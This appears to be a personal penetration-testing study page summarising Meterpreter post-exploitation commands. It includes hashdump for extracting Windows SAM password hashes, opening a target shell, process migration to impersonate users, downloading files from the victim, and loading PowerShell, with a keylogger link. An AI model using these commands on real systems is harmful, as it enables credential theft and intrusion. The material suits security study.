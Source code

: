 # Meterpreter

{% embed url="https://docs.rapid7.com/metasploit/manage-meterpreter-and-shell-sessions/" %}

{% embed url="https://www.offsec.com/metasploit-unleashed/about-meterpreter/" %}

### Meterpreter

#### Useful commands:

1. `?`&#x20;

* View a list of available commands

2. `help`

* Displays the help menu

3. `background`

* Sends the current Meterpreter session into the background, and returns to the _msf_ prompt
* Use the `session -i` command to get back to the Meterpreter session

4. `cat`, `cd`, `pwd`, `ls`

* Similar to the Linux command line

5. `hashdump`

* Dumps the contents of the _**SAM**_ database
* The Security Accounts Manager (SAM) is a database file in Windows that contains usernames and passwords

6. `shell`

* Presents a standard shell on the target system

7. `ps`

* List running processes

Eg. Find all processes running [`explorer.exe`](https://jarrettgxz-sec.gitbook.io/windows/general/explorer.exe)&#x20;

```sh
meterpreter> ps | grep "explorer.exe"
```

8. `migrate`

* Migrate to another process
* Useful for impersonating another user session

9. `download`

* To download a file from the remote machine
* Note the use of the double-slashes in the Windows path

```sh
meterpreter> download c:\\users\test\file.txt
```

10. `load`&#x20;

{% embed url="https://www.offsec.com/metasploit-unleashed/python-extension-2/" %}

Eg. powershell

```sh
meterpreter> load powershell

meterpreter> help
powershell_shell
powershell_xxxx
...

meterpreter> powershell_shell
PS> 
```

### Keylogger

{% embed url="https://www.offsec.com/metasploit-unleashed/keylogging/" %}
